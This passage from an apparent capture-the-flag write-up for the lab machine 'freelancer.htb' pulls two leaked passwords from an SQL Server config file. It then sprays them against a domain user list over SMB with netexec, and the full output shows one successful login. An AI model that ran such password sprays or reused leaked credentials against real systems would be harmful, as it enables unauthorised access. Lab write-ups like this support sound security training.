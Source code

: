 ```
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True

```

“IL0v3ErenY3ager” and “t3mp0r@ryS@PWD” are two passwords leaked.

### Password Spray

I’ll create a file with all the users on the box, and another with these two passwords, and use `netexec` to check each of them over SMB:

```

oxdf@hacky$ netexec smb freelancer.htb -u users -p passwords --continue-on-success
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sqlbackupoperator:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sql_svc:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\administrator:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sqlbackupoperator:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sql_svc:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE

```

There’s a match on mikasaAckerman!
